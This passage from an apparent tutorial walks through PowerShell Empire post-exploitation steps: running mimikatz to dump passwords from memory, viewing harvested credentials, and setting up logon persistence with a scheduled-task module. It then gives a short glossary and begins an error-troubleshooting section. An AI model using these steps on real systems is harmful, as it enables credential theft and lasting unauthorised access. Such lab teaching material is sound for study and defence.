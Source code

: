 15. see the information
```powershell
info
```

*Harvesting Credentials*
16. run mimikatz
```powershell
mimikatz #runs mimikatz which basically gets password from memory; requires elevated privileges; module; may take some time extracting passwords
```

17. see the database from the mimikatz scan
```powershell
creds #this command allows the user to access the database that has the results of the mimikatz scan; assumes that mimikatz is successful
```

*Establishing Persistence (IMPORTANT)*
18. use a module
```powershell
usemodule persistence/elevated/schtasks #the usemodule command takes a single parameter: the particular module desired to be used; this allows the user to begin using a module to establish peristence
```

19. set the option so that the script runs upon logon
```powershell
set OnLogon True #this command like other setters takes in two parameters: the particular option and then the new value; in this case, we are enabling the script to execute upon logon
```

20. set the listener
```powershell
set Listener Win7 #this command like other setters takes in two parameters: the particular option and then the new value; in this case, we are changing the listener for this particular agent
```

21. execute
```powershell
execute #execute the module
```
#
## **Terminology**
**Listener**: listens for specific connections

**Stager**: executable that will facilitate malicious codes to run on the host

**Agent**: maintains connection with target by supplying information

**Modules**: malicious pieces of code that extend functionality on target and sorted based on functionality

**Mimikatz**: post-exploitation tool where it dumps passwords, hashes, bins, and others from memory; depends on OS on success rate; gets passwords from memory

**Persistence**: maintaining connection to victim computer regardless of the computer's state

#
## **Errors**
### *Failed to Establish Connection*
When you run the 
```bash
sudo powershell-empire client 
```
and receive the message
```error
[!] Error: <urllib3.connection.HTTPSConnection object at 0x7f14a009e0a0>: Failed to establish a new connection: [Errno 111] Connection refused
```